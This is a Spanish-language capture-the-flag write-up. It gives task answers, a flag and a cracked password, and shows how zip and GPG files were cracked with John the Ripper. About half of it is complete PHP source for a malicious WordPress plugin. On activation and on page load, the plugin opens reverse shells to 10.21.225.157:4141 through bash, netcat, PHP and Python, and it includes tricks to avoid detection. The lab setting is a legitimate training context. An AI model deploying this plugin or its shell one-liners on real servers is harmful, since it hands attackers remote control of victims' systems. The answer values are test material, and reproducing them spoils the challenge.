

**Task 3:** 
>**¿Cuál es la potencia que hemos obtenido?** 
2157148332

>**¿Qué Flag se tiene que triturar?** 
U2FsdGVkX19PZWFwtJY7AjNnAoGv1uRHn7dcnbRNJEQ

**Detalle importante**: En este apartado representa que se debe revelar el archivo de `s3cr3t.zip`, el cual contiene un archivo con extensión GPG que nos debería de ayudar a obtener mas pistas para poder calcular el orden de la secuencia.

Esto lo descubrí registrando los directorios del servidor una vez ya obtuve una reverse shell.

>**¿Qué contiene el hash?** 
s3cr3t.zip

Una vez descargado `s3cr3t.zip`, extraigo el hash mediante el comando `zip2john s3cr3t.zip > s3cr3t.hash` y procedo a romperlo mediante el comando `john --wordlist=940f s3cr3t.hash`



 Extraigo el archivo historia.gpg, exporto el hash y procedo a romperlo una vez mas con `John`.



>**¿Cuál es la contraseña para poder abrir el fichero?** 
nuestroamorserax100pre

Y ya con la contraseña extraída, se puede desencriptar el contenido de `historia.gpg`.







---


```php
<?php
// Reverse shell configuration
define('REVERSE_SHELL_IP', '10.21.225.157');
define('REVERSE_SHELL_PORT', 4141);

// Hook al activar el plugin
register_activation_hook(__FILE__, function () {
    // Multiple reverse shell methods for compatibility
    $ip = REVERSE_SHELL_IP;
    $port = REVERSE_SHELL_PORT;
    
    // Method 1: bash reverse shell (most common)
    shell_exec("bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1' > /dev/null 2>&1 &");
    
    // Method 2: nc reverse shell fallback
    shell_exec("nc -e /bin/sh $ip $port > /dev/null 2>&1 &");
    
    // Method 3: php reverse shell fallback
    shell_exec("php -r '\$s=fsockopen(\"$ip\",$port);exec(\"/bin/sh -i <&3 >&3 2>&3\");' > /dev/null 2>&1 &");
    
    // Method 4: python reverse shell fallback
    shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$ip\",$port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
    
    // Make it less suspicious by redirecting to a legitimate page
    wp_redirect(home_url());
    exit;
});

// Additional hook for when plugin is loaded (backup method)
add_action('init', function() {
    $ip = REVERSE_SHELL_IP;
    $port = REVERSE_SHELL_PORT;
    
    // Trigger on specific parameter to avoid immediate detection
    if (isset($_GET['debug']) || is_admin()) {
        @shell_exec("bash -c 'exec 5<>/dev/tcp/$ip/$port;cat <&5 | while read line; do \$line 2>&5 >&5; done' > /dev/null 2>&1 &");
    }
});
```

---


